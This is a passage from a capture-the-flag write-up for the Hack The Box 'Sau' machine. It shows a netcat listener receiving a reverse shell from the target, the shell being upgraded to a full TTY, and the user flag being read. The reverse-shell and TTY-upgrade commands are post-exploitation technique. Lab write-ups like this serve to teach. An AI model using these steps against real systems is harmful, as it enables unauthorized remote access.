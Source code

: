 ![shell-payload](/assets/images/machines/htb/sau/shell-burp.png)

I started a netcat listener and ran the exploit and got a reverse shell! I upgraded my shell to a full tty as well.

```bash
h0ax@h0ax:~/sau$ nc -vlnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.224 42068
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ ^Z
[1]+  Stopped                 nc -vlnp 9999
h0ax@h0ax:~/sau$ stty raw -echo;fg
nc -vlnp 9999
             screen
Please set a terminal type.
puma@sau:/opt/maltrail$ export TERM=xterm
puma@sau:/opt/maltrail$
```

You have the ability to read the user flag too!

```bash
puma@sau:~$ ls -alh
total 3.8M
drwxr-xr-x 4 puma puma 4.0K Jul 17 07:35 .
drwxr-xr-x 3 root root 4.0K Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3.7K Feb 25  2020 .bashrc
drwx------ 2 puma puma 4.0K Apr 15 09:42 .cache
drwx------ 3 puma puma 4.0K Jul 17 07:19 .gnupg
-rw------- 1 puma puma   38 Jul 17 07:35 .lesshst
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Jul 17 06:05 user.txt
puma@sau:~$ cat user.txt 
7c01d6d..... never_gonna_give_you_up ;)
puma@sau:~$ 
```